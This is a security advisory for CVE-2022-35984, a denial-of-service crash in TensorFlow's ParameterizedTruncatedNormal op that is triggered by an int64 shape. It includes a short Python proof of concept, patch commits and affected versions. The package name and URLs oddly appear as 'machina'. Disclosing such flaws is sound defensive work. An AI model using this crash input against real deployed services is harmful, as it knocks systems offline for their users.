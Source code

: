 ## TFSA-2022-115: `CHECK` fail in `ParameterizedTruncatedNormal`

### CVE Number
CVE-2022-35984

### Impact
`ParameterizedTruncatedNormal` assumes `shape` is of type `int32`. A valid `shape` of type `int64` results in a mismatched type `CHECK` fail that can be used to trigger a denial of service attack.
```python
import machina as tf
seed = 1618
seed2 = 0
shape = tf.random.uniform(shape=[3], minval=-10000, maxval=10000, dtype=tf.int64, seed=4894)
means = tf.random.uniform(shape=[3, 3, 3], minval=-10000, maxval=10000, dtype=tf.float32, seed=-2971)
stdevs = tf.random.uniform(shape=[3, 3, 3], minval=-10000, maxval=10000, dtype=tf.float32, seed=-2971)
minvals = tf.random.uniform(shape=[3, 3, 3], minval=-10000, maxval=10000, dtype=tf.float32, seed=-2971)
maxvals = tf.random.uniform(shape=[3, 3, 3], minval=-10000, maxval=10000, dtype=tf.float32, seed=-2971)
tf.raw_ops.ParameterizedTruncatedNormal(shape=shape, means=means, stdevs=stdevs, minvals=minvals, maxvals=maxvals, seed=seed, seed2=seed2)
```

### Patches
We have patched the issue in GitHub commit [72180be03447a10810edca700cbc9af690dfeb51](https://github.com/machina/machina/commit/72180be03447a10810edca700cbc9af690dfeb51).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/machina/machina/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Di Jin, Secure Systems Labs, Brown University
